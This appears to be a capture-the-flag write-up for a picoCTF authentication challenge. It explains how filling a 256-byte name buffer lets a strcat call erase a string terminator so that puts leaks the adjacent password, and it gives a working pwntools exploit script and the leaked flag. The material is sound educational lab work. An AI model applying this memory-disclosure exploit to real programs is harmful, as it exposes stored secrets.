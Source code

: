```c

  fgets(password_input, sizeof(password_input), stdin);
  password_input[sizeof(password_input)] = '\x00';  // overflow
  
  if (!strcmp(password_input, password)) {
    flag();
  }
  else {
    printf("Incorrect Password!\n");
  }
  return 0;
}
```

So in order to get the flag, we need to leak the content of the password file. The only output field that we can control is the line `puts(name);`. That mean we need to somehow put the password into the `name` buffer. This turns out to be quite easy because the `password_input` buffer comes right after the `name` buffer:

```c
char name[256];
char password_input[64];
```

What this means is that if we can remove the null byte between the two buffers, we can make `puts` think that it is just one long string and print out the password for us. There happens to be a line in the program that does just that for us: `strcat(name, ",\nPlease Enter the Password.");`. This line with remove the null byte for us making `puts` print out the password together with the name.

Here is how this happens:

* user input 256 bytes into the `name` buffer
* the last byte is replace with a null byte marking the end of the string
* the `strcat` function adds an addition string to the buffer pushing the null byte to somewhere in the `password_input` buffer region.
* the password is read from the file and written the `password_input` buffer overwriting the null byte

In simpler terms, we just have to write exactly 256 bytes of input. If that happens, the program with go horribly wrong and give us the password. Here is the script to do just that:


```python
from pwn import *

# sh = process('./auth')
sh = remote('2018shell2.picoctf.com', 57659)

payload = 'a'*256

sh.sendlineafter('?\n', payload)

print sh.recvuntil('\n').split(',')[1] # a_reAllY_s3cuRe_p4s$word_56b977

sh.interactive()
```
